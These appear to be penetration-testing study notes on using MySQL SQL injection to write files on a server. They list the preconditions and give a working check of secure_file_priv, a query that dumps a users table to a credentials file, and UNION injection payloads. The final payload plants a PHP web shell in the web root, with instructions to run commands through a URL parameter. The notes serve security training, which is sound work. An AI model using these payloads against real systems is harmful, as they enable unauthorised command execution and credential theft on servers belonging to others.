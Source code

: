 To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with `FILE` privilege enabled (check reading files)
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server


checking 2


```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```
if the secure file priv is empty, we can read/write files to any location

Writing data from database
```shell-session
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

just writing random stuff
```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```
union injection
```sql
cn' union select 1,'file written successfully!',3,4,5 into outfile '/var/www/html/dashboard/proof.txt'-- -
```


writing a web shell using union injection
```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -
```
This can be verified by browsing to the `/shell.php` file and executing commands via the `0` parameter, with `?0=id` in our URL:



